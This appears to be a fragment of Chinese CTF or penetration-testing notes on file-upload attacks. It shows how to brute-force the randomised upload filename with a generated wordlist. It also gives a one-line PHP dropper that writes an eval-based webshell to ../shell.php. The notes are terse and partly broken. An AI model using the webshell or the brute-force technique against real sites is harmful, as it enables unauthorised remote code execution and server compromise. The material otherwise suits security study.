 ```
要对文件进行可读权限，

常用的绕过  ls 

```



### 文件上传



https://blog.csdn.net/weixin_43795682/article/details/118274320

1.文件上传后被修改了文件名，利用burp爆破

```php

$filename = $files["name"]; //456
 $randnum = rand(1, 99999);  //123
 $fullpath = '/' . md5($filename.$randnum).".".substr($filename,strripos($filename,'.') + 1); 
 
上传名字sqzr.php
 /md5(sqzr.php456123).php
 
 网站根目录
 /md5(文件全名+rand(1, 99999))
 上传后的名字
```

文件上传循环发包 先自己生成字典

```
for i in range(1,10000):
    print (i)
    
    
╭─hazel@hazeldeMacBook-Pro /tmp
╰─$ python 1.py > dic.txt
```

暴力破解



上级写马

```php
<?php fputs(fopen('../shell.php','w'),'<?php @eval($_POST["test"])?>');?>
```



r

### 代码审计

反序列化

内存里面 ===》 硬盘  
